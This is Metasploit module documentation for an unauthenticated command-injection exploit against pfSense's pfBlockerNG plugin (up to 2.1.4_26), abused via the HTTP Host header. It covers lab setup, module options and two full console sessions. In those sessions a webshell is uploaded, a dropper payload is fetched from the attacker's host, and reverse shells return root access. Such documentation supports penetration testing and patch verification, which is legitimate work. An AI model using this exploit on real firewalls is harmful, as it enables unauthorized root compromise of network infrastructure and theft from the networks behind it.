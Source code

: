 ## Vulnerable Application

### Description
This module exploits a vulnerability in the pfSense plugin, pfBlockerNG that allows remote unauthenticated
attackers to execute execute arbitrary OS commands as root via shell meta characters in the HTTP Host header.
Versions <= 2.1.4_26 are vulnerable. Note that version 3.x is unaffected.

### Setup
Download the pfSense image:

`wget https://atxfiles.netgate.com/mirror/downloads/pfSense-CE-2.5.2-RELEASE-amd64.iso.gz`

To obtain a vulnerable copy of the pfBlockerNG plugin, you can build it from source from the [official pfSense github
repo](https://github.com/pfsense/FreeBSD-ports/tree/devel/net/pfSense-pkg-pfBlockerNG), or it can be downloaded from
the following link:

`wget https://files01.netgate.com/pkg/pfSense_plus-v21_09_aarch64-pfSense_plus_v21_09/All/pfSense-pkg-pfBlockerNG-2.1.4_26.pkg`

Install the .iso file in your favorite virtualizing software. You may need to use the `UEFI` or `BIOS` installation
options to install the software correctly. For testing, `BIOS` was used. You may also need to set the WAN settings.
For this you can just use the default or set it to `hn0` which should also be the default, and this will work fine for
testing purposes.

Once installed pfSense will start and you can access the web GUI by navigating to `https://<pfSense-IP-address>/`.
Sign into the application with username: `admin` password: `pfsense`

Now at the top of the screen select System -> Advanced. Scroll down to the section named Secure Shell and tick the box
beside `Enable Secure Shell`. Then click the `Save` button at the bottom of the page to apply the changes.

From your host machine we can now transfer the vulnerable package to the pfSense VM using `scp`

`scp pfSense-pkg-pfBlockerNG-2.1.4_26.pkg root@<pfSense-IP-address>:/`

(the root password of the VM will be the same as the admin password: `pfsense`)

Install the vulnerable package with: `pkg install pfSense-pkg-pfBlockerNG-2.1.4_26.pkg`

## Options

### WEBSHELL_NAME

This is the name of the webshell that will get uploaded to the pfsense target sans the ".php" ending.
If left unset the file name will be randomly generated.

## Verification Steps

1. Start msfconsole
1. `use unix/http/pfsense_pfblockerng_webshell`
1. Set the `RHOST` and `LHOST` options
1. `exploit`
1. Receive a shell as the `root` user

## Scenarios
### pfSense 2.5.2-RELEASE with pfSense-pkg-pfBlockerNG-2.1.4_26.pkg installed
```
msf6 > use exploit/unix/http/pfsense_pfblockerng_webshell
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set RHOSTS 172.23.40.111
RHOSTS => 172.23.40.111
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set LHOST 172.23.47.143
LHOST => 172.23.47.143
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set LPORT 4453
LPORT => 4453
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set SRVPORT 8383
SRVPORT => 8383
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > show options

Module options (exploit/unix/http/pfsense_pfblockerng_webshell):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         172.23.40.111    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          443              yes       The target port (TCP)
   SRVHOST        0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to
                                              listen on all addresses.
   SRVPORT        8383             yes       The local port to listen on.
   SSL            true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                         no        The URI to use for this exploit (default is random)
   VHOST                           no        HTTP server virtual host
   WEBSHELL_NAME                   no        The name of the uploaded webshell sans the ".php" ending. This value will be randomly generated if left unse
                                             t.


Payload options (bsd/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  172.23.47.143    yes       The listen address (an interface may be specified)
   LPORT  4453             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   BSD Dropper


msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > run

[*] Started reverse TCP handler on 172.23.47.143:4453
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading shell...
[*] Webshell name is: zFOOjmPXX.php
[+] The target is vulnerable.
[*] Executing BSD Dropper for bsd/x64/shell_reverse_tcp
[*] Using URL: http://172.23.47.143:8383/ITtfiF
[*] Client 172.23.40.111 (curl/7.76.1) requested /ITtfiF
[*] Sending payload to 172.23.40.111 (curl/7.76.1)
[+] Deleted /usr/local/www/zFOOjmPXX.php
[*] Command shell session 1 opened (172.23.47.143:4453 -> 172.23.40.111:30301) at 2022-10-12 19:08:21 -0500

id
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

uid=0(root) gid=0(wheel) groups=0(wheel)
whoami
root
uname -a
FreeBSD pfSense.home.arpa 12.2-STABLE FreeBSD 12.2-STABLE fd0f54f44b5c(RELENG_2_5_0) pfSense  amd64
exit
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set TARGET 0
TARGET => 0
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > show options

Module options (exploit/unix/http/pfsense_pfblockerng_webshell):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         172.23.40.111    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          443              yes       The target port (TCP)
   SRVHOST        0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to
                                              listen on all addresses.
   SRVPORT        9933             yes       The local port to listen on.
   SSL            true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                         no        The URI to use for this exploit (default is random)
   VHOST                           no        HTTP server virtual host
   WEBSHELL_NAME                   no        The name of the uploaded webshell sans the ".php" ending. This value will be randomly generated if left unse
                                             t.


Payload options (cmd/unix/reverse_openssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.23.47.143    yes       The listen address (an interface may be specified)
   LPORT  4545             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > run

[*] Started reverse double SSL handler on 172.23.47.143:4545
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading shell...
[*] Webshell name is: jIuhcpoe.php
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/reverse_openssl
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo XqZbye7zG7tGBVWc;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "XqZbye7zG7tGBVWc\n"
[*] Matching...
[*] A is input...
[+] Deleted /usr/local/www/jIuhcpoe.php
[*] Command shell session 2 opened (172.23.47.143:4545 -> 172.23.40.111:33941) at 2022-10-12 19:22:13 -0500

id
uid=0(root) gid=0(wheel) groups=0(wheel)
whoami
root
```

